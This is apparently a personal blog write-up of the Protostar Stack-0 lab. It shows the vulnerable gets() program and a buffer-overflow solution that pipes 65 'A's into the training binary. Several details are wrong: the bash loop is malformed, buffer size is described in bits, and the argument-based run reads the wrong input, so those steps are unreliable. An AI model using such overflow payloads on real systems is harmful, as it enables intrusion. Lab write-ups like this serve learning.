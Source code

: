 ```yaml
---
author: "faizul"
title: "Protostar Stack-00"
date: 2020-09-30T12:00:06+09:00
description: "Exploit-Exercise Protostar Stack-0"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
---
```

 
Low-level exploit, reverse engineering always excite me. Eventhough i did attended one class during Bachelor Degree and learn about Assembly in X86, i only admire this skillset when i relly grind myslef into cybersec and pentest. I try to attend few free training during DefCon and other InfoSec Conference besides doing tutorial from various blog such as MalwareUnicorn, netgarageio and the Exploit Exercise itself. 

This post will be the first entry of me doing Protostar VM by exploit-exercise. While the Stack-0 will be easiest form of Buffer Overflow(for entry), this VM might help me to prepare my aim to gain OSCP in 2021. Enjoy my dumb writing. 

# Stack 0

## About
This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Code provided

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
## Binary execution
![image](/images/protostar/f6f2ffd342c546f686de2632a76ac35a.png)

## Solution 
Since the code show how `char buffer` only hold `[64]` bit value, lets run this first with 3 bit value. Next, we going to run the binary with value up to 64. To do this, we can use bash script to generate/print value 64 above.



```bash
user@protostar:~$ for a in {1..65}; echo -n a; done
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

user@protostar:/opt/protostar/bin$ ./stack0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
you have changed the 'modified' variable
```

Ok, looks like we successfully overwrite the memory area by exploiting the memory buffer overflow technique. 

To make the payload in a form of human readable and beautiful, lets just use python. 

```python
python -c "print 'A' * 65" | /opt/protostar/bin/stack0
```

Then on our ssh, just execute this python script and let the payload execute corrupt the memory.

```bash
user@protostar:~$ python -c "print 'A' * 65" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```
